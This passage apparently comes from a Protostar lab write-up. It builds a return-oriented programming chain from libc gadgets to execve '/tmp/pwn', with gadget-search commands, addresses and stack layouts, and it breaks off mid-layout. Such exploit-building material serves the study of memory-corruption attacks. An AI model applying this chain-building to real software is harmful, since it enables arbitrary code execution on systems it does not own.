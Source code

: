 ### Setting up the registers

Next step it to place the arguments in the three registers `ebx`, `ecx` and `edx`, so we need to find a `pop` for each.

	:::bash
	user@protostar:~$ ./rp-lin-x86 -f /lib/libc-2.11.2.so -r 4 --unique | grep " pop ebx" --color
	...
	0x000d8a81: pop edx ; pop ecx ; pop ebx ; ret  ;  (1 found)
	...

Here we've found all three in a single gadget. Awesome! Let's add the following to our stack layout.

	<lower memory>
	...
	# Load registers
	    0xb7f6fa81 <- Return address (pop edx; pop ecx; pop ebx; ret)
	    0x08049718 <- Argument 3 destined for edx - address of NULL
	    0x08049718 <- Argument 2 destined for ecx - address of NULL
	    0x08049710 <- Argument 1 destined for ebx - address of "/tmp/pwn"
	...
	<higher memory>


### Calling `execve`

We need two more gadgets to load the system call number into eax and to envoke it. Luckily for us, `libc` contains a gadget that serves both purposes:

	:::bash
	user@protostar:~$ ./rp-lin-x86 -f /lib/libc-2.11.2.so --rop=4 --unique | grep "0x0000000B" ; int 0x80"
	...
	0x00097193: mov eax, 0x0000000B ; int 0x80 ;  (1 found)
	...

Our finished stack layout should look like this:

	<lower memory>
	...
	# Load the target address in .data
	    0xb7fcc19d <- Return address (pop ecx; ret)
	    0x08049710 <- Target memory address in .data
	# Load the first part of our string "/tmp" into edx
	    0xb7e98a9e <- Return address (pop edx; ret)
	    "/tmp" <- First part of our string /tmp
	# Perform to move from edx to the .data segment
	    0xb7f0b997 <- Return address (mov dword [ecx], edx; ret)
	# Load the next target address in .data
	    0xb7fcc19d <- Return address (pop ecx; ret)
	    0x08049714 <- Target memory address in .data + 4 bytes
	# Load the second part of our string "/pwn" into edx 
	    0xb7e98a9e <- Return address (pop edx; ret)
	    "/pwn" <- Second part of our string /pwn